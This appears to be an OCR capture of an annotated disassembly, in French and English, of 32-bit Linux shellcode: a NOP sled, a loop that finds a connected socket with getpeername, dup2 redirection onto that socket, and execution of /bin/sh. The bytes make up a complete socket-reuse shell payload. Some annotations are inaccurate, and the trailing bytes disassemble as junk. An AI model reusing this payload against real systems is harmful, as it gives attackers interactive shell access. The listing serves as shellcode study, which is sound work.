 /
                 // ram 
                 // ram: 00000000-000000d5
                 //
        assume DF = 0x0  (Defaul
   000000 90       NOP
   000001 90       NOP
   000002 90       NOP
   000003 90       NOP
   000004 90       NOP
   000005 90       NOP
   000006 90       NOP
   000007 90       NOP
   000008 90       NOP
   000009 90       NOP
   00000a 90       NOP
   00000b 90       NOP
   00000c 90       NOP
   00000d 90       NOP
   00000e 90       NOP
   00000f 90       NOP
   000010 90       NOP
   000011 90       NOP
   000012 90       NOP
   000013 90       NOP
   000014 90       NOP
   000015 90       NOP
   000016 90       NOP
   000017 90       NOP
   000018 90       NOP
   000019 90       NOP
   00001a 90       NOP
   00001b 90       NOP
   00001c 90       NOP
   00001d 90       NOP
   00001e 90       NOP
   00001f 90       NOP
   000020 90       NOP
   000021 90       NOP
   000022 90       NOP
   000023 90       NOP
   000024 90       NOP
   000025 90       NOP
   000026 90       NOP
   000027 90       NOP
   000028 90       NOP
   000029 90       NOP
   00002a 90       NOP
   00002b 90       NOP
   00002c 90       NOP
   00002d 90       NOP
   00002e 90       NOP
   00002f 90       NOP
   000030 90       NOP
   000031 90       NOP
   000032 90       NOP
   000033 90       NOP
   000034 90       NOP
   000035 90       NOP
   000036 90       NOP
   000037 90       NOP
   000038 90       NOP
   000039 90       NOP
   00003a 90       NOP
   00003b 90       NOP
   00003c 90       NOP
   00003d 90       NOP
   00003e 90       NOP
   00003f 90       NOP
   000040 eb 71    JMP    main::start_jmp
                 **********************************
                 *             FUNCTION             *
                 **********************************
                 int __cdecl main(int argc, char *
        int        EAX:4    <RETURN>
        int        Stack[0  argc
        char * *   Stack[0  argv
                 main                        XREF[1  000000b3(c)  
   000042 5d       POP    EBP                         EPB = address instr
                                                      000000b8
   000043 31 c0    XOR    EAX,EAX                     set 0
   000045 31 db    XOR    EBX,EBX                     set 0
   000047 31 c9    XOR    ECX,ECX                     set 0
   000049 31 d2    XOR    EDX,EDX                     set 0
   00004b 31 ff    XOR    EDI,EDI                     set 0
   00004d 31 f6    XOR    ESI,ESI                     set 0
   00004f b0 22    MOV    AL,0x22                     EAX = 0x22 (0010 00
   000051 89 c6    MOV    ESI,EAX                     copy EAX to ESI
                                                      ESI = 0x22 (0010 00
   000053 b0 c0    MOV    AL,0xc0                     EAX = 0xc0 (1100 00
   000055 b1 01    MOV    CL,0x1                      ECX = 0x1 (0001)
   000057 66 c1    SHL    CX,0xc                      ECX = 0x1000 (1 000
          e1 0c
   00005b b2 03    MOV    DL,0x3                      EDX = 0x3 (0011)
   00005d 4f       DEC    EDI                         EDI -= 1
   00005e cd 80    INT    0x80                        appel sys 192 - mmap
                 void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
                 ---
                 EBX - 0
                 ECX - 4096 0x1000 2^12
                 EDX - 3 - PROT_READ | PROT_WRITE
                 ---
                 return pointer of new zone in EAX
   000060 89 c1    MOV    ECX,EAX                     ECX - pointer on zo
                                                      ECX = &zone_mmap
   000062 31 ff    XOR    EDI,EDI                     EDI = 0
   000064 b3 02    MOV    BL,0x2                      EBX = 0x2 (2)
   000066 89 ca    MOV    EDX,ECX                     EDX copy of ECX - p
                                                      EDX = &zone_mmap
   000068 80 c1    ADD    CL,0x4                      ECX = &zone_mmap + 4
          04
                 try_every_fd_values_while_n XREF[2  0000007c(j), 
                                                    00000082(j)  
   00006b 31 c0    XOR    EAX,EAX                     EAX = 0
   00006d 66 b8    MOV    AX,0x170                    EAX = 0x170 (368)
          70 01
   000071 fe c3    INC    BL                          EBX += 1
   000073 c6 02    MOV    byte ptr [EDX],0x10         store 0x10 at [EDX]
          10
   000076 89 39    MOV    dword ptr [ECX],EDI         store EDI at [ECX] 
   000078 cd 80    INT    0x80                        appel sys 368 - get
                 int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
                 ---
                 get peer address
                 ---
                 EBX - increment from 0x2
                 ECX - &zone_mmap + 4 (pointer where to write peer address)
                 EDX - [&zone_mmap] = 0x10 (16) - peer address as a max len of 16 bytes (128), truncated if longer
                 ---
                 ECX = address of the peer connected to the socket sockfd (EBX)
                 return 0 on success, -1 on error
   00007a 39 f8    CMP    EAX,EDI                     EAX == EDI ?
   00007c 75 ed    JNZ    try_every_fd_values_while_n if error at syscall
   00007e 8b 01    MOV    EAX,dword ptr [ECX]         EAX = peer address 
   000080 3c 02    CMP    AL,0x2                      AL == 2 ? (is ipv4 
   000082 75 e7    JNZ    try_every_fd_values_while_n if EAX do not end w
   000084 89 ca    MOV    EDX,ECX                     EDX = ECX (&zone_mm
                                                      peer address is sto
   000086 31 c9    XOR    ECX,ECX                     ECX = 0
   000088 31 c0    XOR    EAX,EAX                     EAX = 0
   00008a b0 3f    MOV    AL,0x3f                     EAX = 0x3f (0011 11
   00008c cd 80    INT    0x80                        appel sys 63 - dup2
                 int dup2(int oldfd, int newfd);
                 ---
                 copy file descriptor
                 ---
                 EBX - oldfd found using try_every_fd_values_while_not_error loop
                 ECX - &zone_mmap + 4
                 ---
                 return new descriptor on success, -1 on error
   00008e 41       INC    ECX                         ECX += 1
   00008f b0 3f    MOV    AL,0x3f                     EAX = 0x3f (0011 11
   000091 cd 80    INT    0x80                        appel sys 63 - dup2
                 int dup2(int oldfd, int newfd);
                 ---
                 copy file descriptor
                 ---
                 EBX - oldfd found using try_every_fd_values_while_not_error loop
                 ECX - &zone_mmap + 5
                 ---
                 return new descriptor on success, -1 on error
   000093 41       INC    ECX                         ECX += 1
   000094 b0 3f    MOV    AL,0x3f                     EAX = 0x3f (0011 11
   000096 cd 80    INT    0x80                        appel sys 63 - dup2
                 int dup2(int oldfd, int newfd);
                 ---
                 copy file descriptor
                 ---
                 EBX - oldfd found using try_every_fd_values_while_not_error loop
                 ECX - &zone_mmap + 6
                 ---
                 return new descriptor on success, -1 on error
   000098 31 c0    XOR    EAX,EAX                     EAX = 0
   00009a 89 6d    MOV    dword ptr [EBP + 0x8],EBP   [EBP + 0x8] = EBP
          08                                          b8 + 0x8 = 0xc0
   00009d 89 45    MOV    dword ptr [EBP + 0xc],EAX   [EBP + 0xc] = 0x0
          0c                                          b8 + 0xc = 0xc0
   0000a0 88 45    MOV    byte ptr [EBP + 0x7],AL     make [EBP + 0x7] en
          07                                          b8 + 0x7 = 0xbf
   0000a3 b0 0b    MOV    AL,0xb                      EAX = 0xb (1011)
   0000a5 89 eb    MOV    EBX,EBP                     EBX = EBP (/bin/sh)
   0000a7 8d 4d    LEA    ECX,[EBP + 0x8]             ECX = [EBP + 0x8]
          08
   0000aa 8d 55    LEA    EDX,[EBP + 0xc]             EDX = [EBP + 0xc]
          0c
   0000ad cd 80    INT    0x80                        appel sys 11 - exec
                 int execve(const char *filename, char *const argv[], char *const envp[]);
                 ---
                 EBX - pointer on value /bin/sh
                 ECX - pointer on value ["/bin/sh"] array ends with 0
                 EDX - pointer on value 0
                 /bin/sh/0(@"/bin/sh/")00000000
   0000af b0 01    MOV    AL,0x1                      EAX = 0x1
   0000b1 cd 80    INT    0x80                        appel sys 1 - exit
                 start_jmp                   XREF[1  00000040(j)  
   0000b3 e8 8a    CALL   main                        int main(int argc, 
          ff ff 
          ff
   0000b8 2f 62    ds     "/bin/shAAAAAAAAA\n"
          69 6e 
          2f 73
   0000cc 0d 00    OR     EAX,0x8b000000
          00 00 
          8b
                 1000 1011 0000 0000 0000 0000 0000 0000 (32 bits)
   0000d1 91       XCHG   EAX,ECX
   0000d2 98       CWDE
   0000d3 c3       RET
   0000d4 ff 0a    DEC    dword ptr [EDX]


Fin de la discussion
Écrivez un message...

